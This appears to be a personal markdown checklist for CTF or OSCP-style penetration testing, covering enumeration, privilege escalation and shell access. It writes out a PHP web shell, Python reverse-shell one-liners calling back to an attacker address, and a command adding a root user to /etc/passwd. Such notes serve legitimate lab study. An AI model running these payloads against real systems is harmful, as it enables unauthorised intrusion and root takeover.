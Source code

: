 # Checklist
# Preperation

<details>
  <summary>Expand</summary>

- [ ] Find IP of the machine
	- [ ] `export IP=<MACHINE_IP>`
	- [ ] `export MACHINE_NAME=<MACHINE_NAME>`
- [ ] Set folder structure
	- [ ] `cd ctf/`
	- [ ] `mkdir -p $MACHINE_NAME/enum`
	- [ ] `mkdir -p $MACHINE_NAME/files`
	- [ ] `touch $MACHINE_NAME/enum/users.txt`
	- [ ] `cp templates/report.md ctf/$MACHINE_NAME/${MACHINE_NAME}.md`
- [ ] Set hostname in etc/hosts (if helps)

</details>


# Enumeration

<details>
  <summary>Expand</summary>

<details>
  <summary>NMAP</summary>

- [Howto](../../active-information-gathering/nmap.md)
- Copy key findings to report
- check results
- Paste to [report](templates/report.md)
- Highlight exploitables/targets	

</details>	

<details>
  <summary>Rustscan</summary>

	- Test	

</details>	
	

<details>
  <summary>enum4linux</summary>
<br />

- [ ] `enum4linux $IP` -> users, share, comon structure, server block.
	- [ ] Highlights
	- [ ] check results
	- [ ] Check SMB null session
	- [ ] system level users	

</details>	


<details>
  <summary>nmap-nse</summary>
<br />

1. [ ] [Howto](active-information-gathering/nmap.md#nmap-nse)

</details>

<details>
  <summary>smb/netbio-ssn</summary>

	- Ports [139, 445]
	- `mkdir smb`
	- `nmap -p139,445 --script=smb-enum-shares $IP`
		- `smbclient //<IP>/IPC$ -N (/ADMINS/)` -> N: smb null session.
		- smbclient //'IP'/qui -N
		- crackmapexec
		- mfsconsole > use auxilaiary(scanner/smb/smb_login) > set pass rockyou.
	- `smbmap -H $IP`
	- `smbclient --no-pass -L //$IP`
	- `smbclient --no-pass \\\\$IP\\anonymous`
	- `smbclient \\\\$IP\\ITDEPT anonymous` [Tested]
	- `mget file.name`
	- `smbmap -u <user> -p <PassWord> -H $IP`
	- `smbclient //'IP'/<share> -U'user'%'password'`
	- `smbclient //$IP/secured -U <user>%<password> -c "prompt OFF;recurse ON;mget *"`	

</details>
	
<details>
  <summary>Apache Tomcat</summary>

	- Apache Tomcat [8080]
			- Read Version
			- Check URL (hints)
			- default credentials
			- mfsconsole /is it allowed?
	
</details>

<details>
  <summary>Domain</summary>

	- TODO
	
</details>

<details>
  <summary>ssl/pop3</summary>

	- TODO
	
</details>
	
<details>
  <summary>ssl/imap</summary>

	- TODO
	
</details>
	
<details>
  <summary>TOPIC</summary>

	- TODO
	
</details>
	
<details>
  <summary>	Morse code</summary>

	- Test	

</details>
	
<details>
  <summary>shellshock</summary>

- /cgi-bin
	- [ ] shellshock [Howto](../../foothold/shellshock/README.md)	
	

</details>
	
<details>
  <summary>SSH</summary>

	- hydra
		- [Howto](tools/bruteforce/ssh/hydra)
		- `curl -A "GoogleBot" http://$IP/robots.txt`
		- searchsploit
		- Port knocking
		- nmap port knock 

</details>
	

<details>
  <summary>WEB Enum</summary>
	
- Load each targetted port in browser
- export PORT=80
- `dirb http://$IP:$PORT/ -r`
- `nikto --host http://<IP> -C all` :: tool for webapp
- `export URL=${IP}:8080/FUZZ` or `export URL=${IP}:8080/FUZZ/`
	- HTTPS you will want to include protocol too
	- `wfuzz -c -z file,/usr/share/seclists/Discovery/Web-Content/raft-large-files.txt --hc 404 "$URL"`
	- `gobuster dir -u http://$IP -w /usr/share/dirbuster/wordlists/directory-list-1.0.txt`  :: helpful during bruteforce
	- framework/server/service -> searchexploit
	- Check for config through URL's like
	- hostname/username/re-use etc
- LFI
- check for ssh keys
- check for service/app configuration file (e.g: /etc/tomcat7/tomcat-users)
- vsftpd -> upload, to rce from upload file
- RFI
	- rev shell
		- https://www.revshells.com/
			- `python -c 'import pty;pty.spawn("/bin/bash")'`
	- `linpeas.sh`
- CUPS Http `631`

- Wordpress
	- wpscan

</details>

</details>


# Privilege Escalation

<details>
	<summary>Expand</summary>

- [ ] privileges escalation
	- [ ] `sudo -l`
	- [ ] password re-use
		- [ ] from credentials founds in enum
		- [ ] `su - <user>`
			- [ ] ***Stabilize Shell $***
				- [ ] `which python` -> python is here
				- [ ] `python -c 'import pty; pty.spawn("/bin/bash")'` -> import valid tty
				- [ ] `tty` quick test 
				- [ ] `export TERM=xterm-256color`  ⇾ export our terminal
				- [ ] `alias ll='clear ; ls -lsaht --color-auto'` ⇾ export ll command
				- [ ] `stty raw -echo; fg; reset` -> stable shell by control Z & backgrounding it
				- [ ] `stty columns 200 rows 200`
		- [ ] e.g: `sudo /usr/bin/mysql -e '\! /bin/sh'`  [sudo nopass for mysql](https://gtfobins.github.io/gtfobins/mysql/#sudo)
	- [ ] `netstat -tupanl | grep -i '127.0.0.1'` -> anything running on loopback
	- [ ] `find / -perm -u=s -type f 2>/dev/null` 
		- [ ] *_The first step is to identify all programs or files that have SUID bits enabled_*
			- [ ] example
				- [ ] /usr/bin/zsh
		- [ ] Read Source Code (if any)
		- [ ] look for files owned by root grouped by user.
		- [ ] `ps aux | grep -i 'root' --auto-color` <-- anything running as root?
			- [ ] lateral machines? (not done anything like this)
			- [ ] private ip address? (not done anything)
			- [ ] web root -> any db credes?
	- [ ] Take advantage of this misconfiguration by abusing the PATH variable
	- [ ] Take advantage of misconfigured cronjob.
	- [ ] `find / -perm -u=g -type f 2>/dev/null` -> Are there any GUID
	- [ ] File transfer
		- [ ] [Python http.server](../../tools/file-transfer#python-simple-http-server)
	- [ ] simple HTTP server
		- [ ] download pspy
		- [ ] Second shell -> `pspy<BIT>`
		- [ ] `getcap -r / 2>/dev/null` -> Are there any extended permissions
		- [ ] exploit miss-configuration
	- [ ] writeable `passwd`?
		- [ ] `perl -le 'print crypt("PassWord","addedsalt")'`
		- [ ] `echo "nullBrain:saltedvaluefromabove:0:0:User_like_root:/root:/bin/bash" >> /etc/passwd`
	- [ ] Privilege escalation Enum
		- [ ] `https://github.com/diego-treitos/linux-smart-enumeration` (is this allowed in OSCP?)
		- [ ] `https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS`  (is this allowed in OSCP?)
	- [ ] `kernel exploits?`
		- [ ] https://github.com/mzet-/linux-exploit-suggester
		- [ ] e.g Dirty Cow [example HowTo](practical/dirty_cow)

</details>


# Remote Code Execution (RCE)

<details>
	<summary>Expand</summary>

- [ ] Remote Code Execution
	- [ ] `<?php system($_GET['cmd']);?>`
	- [ ] Verify RCE
		- [ ] e.g : `http://$IP/<path>/?lang=/var/ftp/pub/backdoor.php&cmd=id`.`
		- [ ] Payload:
			- [ ] https://github.com/nullbr41n/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md
			- [ ] payload converter (hURL)
			- [ ] `python -c 'import socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")'`
			- [ ] `python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.10.10",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'`
</details>


# Reverse Shell

<details>
	<summary>Expand</summary>

- [ ] Reverse Shell
	- [ ] web uploads
		- [ ] `nc - nlvp 1` `Listening on port 1`
		- [ ] Upload payload on other side, should open connection
		- [ ] check RCE section.
			- [ ] ***Stabilize Shell $***
				- [ ] `which python` -> python is here
				- [ ] `python -c 'import pty; pty.spawn("/bin/bash")'` -> import valid tty
				- [ ] `tty` quick test
				- [ ] `export TERM=xterm-256color`  ⇾ export our terminal
				- [ ] `alias ll='clear ; ls -lsaht --color-auto'` ⇾ export ll command
				- [ ] `stty raw -echo; fg; reset` -> stable shell by control Z & backgrounding it
				- [ ] `stty columns 200 rows 200`

</details>
